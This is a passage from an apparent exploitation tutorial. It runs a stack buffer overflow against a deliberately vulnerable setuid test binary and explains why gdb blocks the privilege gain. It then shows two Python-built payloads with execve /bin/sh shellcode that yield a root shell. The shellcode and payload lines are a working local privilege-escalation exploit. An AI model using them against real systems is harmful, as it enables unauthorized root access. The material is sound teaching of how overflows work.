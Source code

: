 This is what I told you a little earlier: no shell but the confirmation that an “Inferior Process” has been launched... Our **/bin/sh** what.
{: .text-justify}

The problem is, a shell in **gdb** is not very interesting... Yes, because **gdb** is a kind of wrapper, when **bfpoc** is executed in **gdb**, it is considered as a child process, and the this child process execution rights are inherited from gdb's execution rights. In other words, no elevation of privilege because the **setuid** is positioned on **bfpoc** but not on the **gdb** binary... It will therefore be necessary to perform these exploits in realtime running environnement.

## EXECUTION IN REAL LIFE
We will therefore try our two exploits directly from our **shell**, and you will see that we become **root** without any problem! Let's start with the one that targets the space of the funcMyLife function argument **(const char * arg)**:
{: .text-justify}

```shell
user1@kali:~$ ./bfpoc $(python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"a"*17+"\x10\xd8\xff\xff"')
[1] Calling funcMyLife().
[2] funcMyLife() Start here.
[3] Variable buffer declaration.
[4] Calling strcpy(). <= [Vulnerability]
Message: ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒ ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒ ▒▒1▒Ph // shh / bin▒▒PS▒▒
 ̀Aaaaaaaaaaaaaaaaa▒▒▒
[5] funcMyLife() end at the next instruction (ret).
# whoami
root
```

It's a wrap! What about the second which uses the space of the variable **buffer[<span style="color:red">128</span>]**?
{: .text-justify}

```shell
user1@kali:~$ ./bfpoc $(python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"a"*17+"\x80\xd5\xff\xff"')
[0] main() Start here.
[1] Calling funcMyLife().
[2] funcMyLife() Start here.
[3] Variable buffer declaration.
[4] Calling strcpy(). <= [Vulnerability]
Message: ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒ ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒ ▒▒1▒Ph // shh / bin▒▒PS▒▒
 ̀Aaaaaaaaaaaaaaaaa▒▒▒▒
[5] funcMyLife() end at the next instruction (ret).
# whoami
root
```
![alt](/assets/images/posts_img/themask.gif){: style="float: center; width: 300px; margin: 1em"}
